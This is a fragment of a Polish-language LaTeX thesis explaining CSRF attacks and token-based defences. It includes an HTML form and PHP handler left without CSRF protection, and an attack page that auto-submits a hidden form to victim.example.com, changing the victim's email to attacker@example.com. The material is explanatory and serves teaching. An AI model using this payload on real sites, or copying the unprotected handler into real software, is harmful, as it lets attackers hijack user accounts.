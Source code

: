 \documentclass[12pt,a4paper,polish,thesis]{dcsbook}
\begin{document}
Współcześnie zręby projektowe, na podstawie których buduje się aplikacje internetowe, posiadają już gotowe zabezpieczenia przed atakiem CSRF przy pomocy żetonów. Do każdego wygenerowanego formularza (i równocześnie sesji użytkownika) przynależy żeton CSRF o~losowej wartości, który należy przekazać w~żądaniu do serwera. Zazwyczaj żeton ten jest przechowywany w~formularzu w~postaci ukrytego pola. Atakujący musiałby najpierw pobrać zawartość strony z~formularzem aby poznać wartość, jaką następnie musiałby przekazać podczas wykorzystywania uprawnień ofiary.

\subsubsection*{Przykład}
\begin{lstlisting}[language=html,frame=single,caption=przykładowy kod HTML podatny na atak CSRF \cite{csrf-example},label=csrf01,numbers=left]
<form action="/url/profile.php" method="post">
<input type="text" name="firstname"/>
<input type="text" name="lastname"/>
<br/>
<input type="text" name="email"/>
<input type="submit" name="submit" value="Update"/>
</form>
\end{lstlisting}

\begin{lstlisting}[language=php,frame=single,caption=przykładowy kod PHP podatny na atak CSRF \cite{csrf-example},label=csrf02,numbers=left]
// initiate the session in order to validate sessions

session_start();

//if the session is registered to a~valid user then allow update

if (! session_is_registered("username")) {

echo "invalid session detected!";

// Redirect user to login page
[...]

exit;
}

// The user session is valid, so process the request
// and update the information

update_profile();

function update_profile {
// read in the data from $POST and send an update
// to the database
SendUpdateToDatabase($_SESSION['username'], $_POST['email']);
[...]
echo "Your profile has been successfully updated.";
}
\end{lstlisting}

\begin{lstlisting}[language=html,frame=single,caption=przykładowy kod HTML wykorzystujący atak CSRF \cite{csrf-example},label=csrf03,numbers=left]
<SCRIPT>
function SendAttack () {
form.email = "attacker@example.com";
// send to profile.php
form.submit();
}
</SCRIPT>

<BODY onload="javascript:SendAttack();">

<form action="http://victim.example.com/profile.php" id="form" method="post">
<input type="hidden" name="firstname" value="Funny">
<input type="hidden" name="lastname" value="Joke">
<br/>
<input type="hidden" name="email">
</form>
\end{lstlisting}
\end{document}
